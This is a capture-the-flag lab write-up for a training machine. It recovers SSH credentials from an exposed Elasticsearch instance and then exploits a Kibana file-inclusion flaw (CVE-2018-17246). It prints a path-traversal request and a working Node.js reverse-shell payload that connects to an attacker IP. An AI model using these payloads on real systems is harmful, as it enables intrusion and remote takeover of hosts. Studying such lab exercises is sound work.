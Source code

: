 ![](./logo.png)

# USER

`nmap` shows a `http` server on port 80. This page displays a photo of a needle.

Running `strings` provides us with the base64 string:

Translating the string: 
```
(base64)    bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==

(Spanish)   la aguja en el pajar es "clave"

(English)   the needle in the haystack is "key"
```
Port 9200 shows an `elasticsearch` instance

Running it with

```
http://10.10.10.115:9200/*
```

Shows all the tables available

```
http://10.10.10.115:9200/<table_name>/_search
```

Dumping all the data can be achieved using https://github.com/taskrabbit/elasticsearch-dump

Example command:
```
elasticdump --input=http://10.10.10.115:9200/quotes --output=./quotes.dump
```

Searching for the word `clave` gives us the lines:

```
Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg
Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk=
```

The `base64` gives:

```
user: security 
pass: spanish.is.key
```

These allow logging on via `ssh`. This lets us grab the `user.txt`!

# ROOT

This command exposes the `kibana` service to our local machine.
```
ssh -L 5601:127.0.0.1:5601 security@10.10.10.115
```

This allows us to use our web browser to view the `kibana` console

Going to try this exploit `CVE-2018-17246 - Kibana LFI < 6.4.3 & 5.6.13`


```
/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../tmp/nothing.js
```


```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(6868, "10.10.14.55", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```